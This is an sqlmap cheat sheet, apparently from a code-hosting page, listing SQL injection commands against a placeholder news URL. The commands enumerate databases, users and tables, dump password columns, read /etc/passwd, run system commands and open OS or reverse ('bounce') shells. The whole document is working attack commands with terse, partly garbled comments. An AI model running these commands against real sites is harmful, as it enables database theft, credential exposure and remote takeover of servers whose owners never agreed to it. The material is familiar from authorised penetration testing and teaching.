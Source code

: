 #union Query table record

Sqlmap.py -u "http://url/news?id=1" --union-cols 

# injection

# Get the current user name 
Sqlmap.py -u "http://url/news?id=1" --current-user
# Get the current database name
Sqlmap.py -u "http://www.xxoo.com/news?id=1" --current-db 
# listname
Sqlmap.py -u "http://www.xxoo.com/news?id=1" --tables -D "db_name" 
#column field
Sqlmap.py -u "http://url/news?id=1" --columns -T "tablename" users-D "db_name" -v 0 
#Get the field contents
Sqlmap.py -u "http://url/news?id=1" --dump -C "column_name" -T "table_name" -D "db_name" -v 0
# smart smart level Execution test level
Sqlmap.py -u "http://url/news?id=1" --smart --level 3 --users
# dbms Specify database type
Sqlmap.py -u "http://url/news?id=1" --dbms "Mysql" --users
#column database user
Sqlmap.py -u "http://url/news?id=1" --users


# Access to information

Sqlmap -u "http://url/news?id=1" --dbms "Mysql" --users		# dbms Specify database type
Sqlmap -u "http://url/news?id=1" --users 					#column database user
Sqlmap -u "http://url/news?id=1" --dbs						#column database
Sqlmap -u "http://url/news?id=1" --passwords				#database user password
Sqlmap -u "http://url/news?id=1" --passwords -U root -v 0   #list the password of the specified user database
Sqlmap -u "http://url/news?id=1" --dump -C "password,user,id" -T "tablename" -D "db_name" --start 1 --stop 20  #list designation Field, list 20
Sqlmap -u "http://url/news?id=1" --dump-all -v 0 			#List all tables in all databases
Sqlmap -u "http://url/news?id=1" --privileges 				#View Permissions
Sqlmap -u "http://url/news?id=1" --privileges -U root		#View specified user permissions
Sqlmap -u "http://url/news?id=1" --is-dba -v 1 				#is it a database administrator?
Sqlmap -u "http://url/news?id=1" --roles 					#enumrate database user roles
Sqlmap -u "http://url/news?id=1" --udf-inject 				#Import user-defined functions (get system privileges!)
Sqlmap -u "http://url/news?id=1" --dump-all --exclude-sysdbs -v 0 #list out all tables in the current library
Sqlmap -u "http://url/news?id=1" --union-cols 				#union Query table record
Sqlmap -u "http://url/news?id=1" --cookie "COOKIE_VALUE" 	#cookie injection
Sqlmap -u "http://url/news?id=1" -b 						#Get banner information
Sqlmap -u "http://url/news?id=1" --data "id=3" 				#postinjection
Sqlmap -u "http://url/news?id=1" -v 1 -f 					#fingerprint database type
Sqlmap -u "http://url/news?id=1" --proxy "http://127.0.0.1:8118" # Agent injection
Sqlmap -u "http://url/news?id=1" --string "STRING_ON_TRUE_PAGE" #Specify keywords
Sqlmap -u "http://url/news?id=1" --sql-shell 				#Execute the specified sql command
Sqlmap -u "http://url/news?id=1" --file /etc/passwd
Sqlmap -u "http://url/news?id=1" --os-cmd=whoami 			#Execute system commands
Sqlmap -u "http://url/news?id=1" --os-shell					#system interactive shell
Sqlmap -u "http://url/news?id=1" --os-pwn 					#bounce shell